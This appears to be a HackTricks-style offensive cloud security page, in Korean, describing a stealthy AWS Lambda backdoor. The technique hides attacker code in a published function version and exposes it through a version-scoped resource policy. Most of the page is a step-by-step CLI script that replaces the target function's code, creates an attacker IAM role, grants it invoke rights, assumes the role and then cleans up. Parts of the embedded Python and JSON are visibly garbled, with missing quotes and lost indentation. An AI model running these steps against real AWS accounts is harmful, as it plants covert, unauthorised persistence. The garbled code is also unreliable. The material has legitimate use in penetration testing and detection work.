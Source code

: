 # AWS - Lambda Alias-Scoped Resource Policy Backdoor (Invoke specific hidden version)

{{#include ../../../../banners/hacktricks-training.md}}

## 요약

공격자 로직을 포함한 숨겨진 Lambda 버전을 생성하고, `lambda add-permission`의 `--qualifier` 파라미터를 사용해 리소스 기반 정책을 해당 특정 버전(또는 alias)에만 적용합니다. 공격자 principal에게는 `arn:aws:lambda:REGION:ACCT:function:FN:VERSION`에 대한 `lambda:InvokeFunction`만 부여합니다. 함수 이름이나 기본 alias를 통한 일반 호출은 영향을 받지 않으며, 공격자는 백도어된 버전 ARN을 직접 호출할 수 있습니다.

이는 Function URL을 노출하는 것보다 더 은밀하며 기본 트래픽 alias를 변경하지 않습니다.

## 필요한 권한 (공격자)

- `lambda:UpdateFunctionCode`, `lambda:UpdateFunctionConfiguration`, `lambda:PublishVersion`, `lambda:GetFunctionConfiguration`
- `lambda:AddPermission` (to add version-scoped resource policy)
- `iam:CreateRole`, `iam:PutRolePolicy`, `iam:GetRole`, `sts:AssumeRole` (to simulate an attacker principal)

## 공격 단계 (CLI)

<details>
<summary>숨겨진 버전 게시, `--qualifier` 범위 권한 추가, 공격자로서 호출</summary>
```bash
# Vars
REGION=us-east-1
TARGET_FN=<target-lambda-name>

# [Optional] If you want normal traffic unaffected, ensure a customer alias (e.g., "main") stays on a clean version
# aws lambda create-alias --function-name "$TARGET_FN" --name main --function-version <clean-version> --region "$REGION"

# 1) Build a small backdoor handler and publish as a new version
cat > bdoor.py <<PY
import json, os, boto3

def lambda_handler(e, c):
ident = boto3.client(sts).get_caller_identity()
return {"ht": True, "who": ident, "env": {"fn": os.getenv(AWS_LAMBDA_FUNCTION_NAME)}}
PY
zip bdoor.zip bdoor.py
aws lambda update-function-code --function-name "$TARGET_FN" --zip-file fileb://bdoor.zip --region $REGION
aws lambda update-function-configuration --function-name "$TARGET_FN" --handler bdoor.lambda_handler --region $REGION
until [ "$(aws lambda get-function-configuration --function-name "$TARGET_FN" --region $REGION --query LastUpdateStatus --output text)" = "Successful" ]; do sleep 2; done
VER=$(aws lambda publish-version --function-name "$TARGET_FN" --region $REGION --query Version --output text)
VER_ARN=$(aws lambda get-function --function-name "$TARGET_FN:$VER" --region $REGION --query Configuration.FunctionArn --output text)
echo "Published version: $VER ($VER_ARN)"

# 2) Create an attacker principal and allow only version invocation (same-account simulation)
ATTACK_ROLE_NAME=ht-version-invoker
aws iam create-role --role-name $ATTACK_ROLE_NAME --assume-role-policy-document Version:2012-10-17 >/dev/null
cat > /tmp/invoke-policy.json <<POL
{
"Version": "2012-10-17",
"Statement": [{
"Effect": "Allow",
"Action": ["lambda:InvokeFunction"],
"Resource": ["$VER_ARN"]
}]
}
POL
aws iam put-role-policy --role-name $ATTACK_ROLE_NAME --policy-name ht-invoke-version --policy-document file:///tmp/invoke-policy.json

# Add resource-based policy scoped to the version (Qualifier)
aws lambda add-permission \
--function-name "$TARGET_FN" \
--qualifier "$VER" \
--statement-id ht-version-backdoor \
--action lambda:InvokeFunction \
--principal arn:aws:iam::$(aws sts get-caller-identity --query Account --output text):role/$ATTACK_ROLE_NAME \
--region $REGION

# 3) Assume the attacker role and invoke only the qualified version
ATTACK_ROLE_ARN=arn:aws:iam::$(aws sts get-caller-identity --query Account --output text):role/$ATTACK_ROLE_NAME
CREDS=$(aws sts assume-role --role-arn "$ATTACK_ROLE_ARN" --role-session-name htInvoke --query Credentials --output json)
export AWS_ACCESS_KEY_ID=$(echo $CREDS | jq -r .AccessKeyId)
export AWS_SECRET_ACCESS_KEY=$(echo $CREDS | jq -r .SecretAccessKey)
export AWS_SESSION_TOKEN=$(echo $CREDS | jq -r .SessionToken)
aws lambda invoke --function-name "$VER_ARN" /tmp/ver-out.json --region $REGION >/dev/null
cat /tmp/ver-out.json

# 4) Clean up backdoor (remove only the version-scoped statement). Optionally remove the role
aws lambda remove-permission --function-name "$TARGET_FN" --statement-id ht-version-backdoor --qualifier "$VER" --region $REGION || true
```
</details>

## 영향

- primary alias를 수정하거나 Function URL을 노출하지 않고 함수의 숨겨진 버전을 호출할 수 있는 은밀한 backdoor를 제공합니다.
- resource-based policy `Qualifier`를 통해 노출을 지정된 version/alias로만 제한하여 detection surface를 줄이면서 attacker principal에 대한 신뢰할 수 있는 호출을 유지합니다.

{{#include ../../../../banners/hacktricks-training.md}}
